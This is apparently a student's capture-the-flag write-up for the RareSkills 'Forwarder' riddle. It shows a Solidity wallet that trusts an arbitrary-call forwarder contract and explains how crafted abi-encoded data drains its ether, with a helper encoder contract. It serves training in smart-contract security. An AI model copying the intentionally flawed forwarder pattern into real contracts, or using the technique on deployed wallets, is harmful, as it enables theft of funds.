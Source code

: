 # Security - Week 3

## RareSkills Riddles - Forwarder

### Contracts

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;

contract Wallet {
    address public immutable forwarder;

    constructor(address _forwarder) payable {
        require(msg.value == 1 ether);
        forwarder = _forwarder;
    }

    function sendEther(address destination, uint256 amount) public {
        require(msg.sender == forwarder, "sender must be forwarder contract");
        (bool success,) = destination.call{value: amount}("");
        require(success, "failed");
    }
}

contract Forwarder {
    function functionCall(address a, bytes calldata data) public {
        (bool success,) = a.call(data);
        require(success, "forward failed");
    }
}
```

### Exploit

To solve this challenge, we have to pass the correct abi-encoded data into the `functionCall` function of the `Forwarder` contract. More specifically, we want to specify `data` such that `functionCall` calls `sendEther` with `destination` set to our attacker wallet's address and `amount` set to 1 ether.

One straightforward way to generate this data is to use the following `Encoder` helper contract:

_Forwarder.sol_
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;

contract Wallet {
    ...
}

contract Forwarder {
    ...
}

contract Encoder {
    function encode(address destination, uint256 amount) external pure returns (bytes memory) {
        return abi.encodeWithSignature("sendEther(address,uint256)", destination, amount);
    }
}
```
